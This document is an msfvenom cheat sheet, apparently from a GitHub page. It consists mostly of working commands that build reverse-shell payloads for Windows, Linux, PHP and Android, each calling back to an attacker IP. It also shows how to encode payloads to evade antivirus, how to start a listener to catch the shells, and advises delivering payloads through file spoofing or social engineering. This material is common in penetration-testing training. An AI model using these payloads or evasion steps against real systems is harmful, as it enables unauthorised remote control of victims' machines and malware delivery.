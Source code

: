 ## 🛠️ Basic Syntax

```bash
msfvenom -p <payload> LHOST=<your_ip> LPORT=<your_port> -f <format> -o <output_file>
```

---

## 🔍 Common Payloads

|Platform|Payload|Description|
|---|---|---|
|Windows|`windows/meterpreter/reverse_tcp`|Reverse shell with Meterpreter|
|Linux|`linux/x86/meterpreter/reverse_tcp`|Reverse Meterpreter shell|
|Web|`php/meterpreter_reverse_tcp`|PHP reverse shell|
|Android|`android/meterpreter/reverse_tcp`|Android reverse shell|

---

## 🎯 Example Commands

### ✅ 1. Windows Reverse Shell (EXE)

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f exe -o shell.exe
```

### ✅ 2. Linux Reverse Shell (ELF)

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f elf -o shell.elf
```

### ✅ 3. Web Shell in PHP

```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f raw -o shell.php
```

### ✅ 4. Android APK Payload

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 R > shell.apk
```

### ✅ 5. Shellcode (C Format)

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f c
```

---

## 🔄 Output Formats (`-f`)

|Format|Use Case|
|---|---|
|`exe`|Windows executable|
|`elf`|Linux binary|
|`apk`|Android app|
|`raw`|Script languages (PHP, etc.)|
|`c`, `python`, `powershell`, `bash`|For injecting in source code|

---

## 🔐 Encoding Payloads

To evade antivirus, you can encode payloads using `-e` and `-i`:

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f exe -e x86/shikata_ga_nai -i 3 -o encoded_shell.exe
```

|Flag|Description|
|---|---|
|`-e`|Encoder (e.g. `x86/shikata_ga_nai`)|
|`-i`|Number of iterations|

---

## 📞 Listener Setup (Handler)

Start a handler in `msfconsole` to catch the shell:

```bash
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.10.14.10
set LPORT 4444
run
```

---

## 🧠 Tips

- Match `payload` type to target architecture (x86 vs x64).
    
- Obfuscate or encode payloads to bypass AV.
    
- Combine with file spoofing or social engineering for delivery.
    

---

## 🧾 Cheat Sheet

```bash
# List payloads
msfvenom -l payloads

# List formats
msfvenom -l formats

# List encoders
msfvenom -l encoders
```
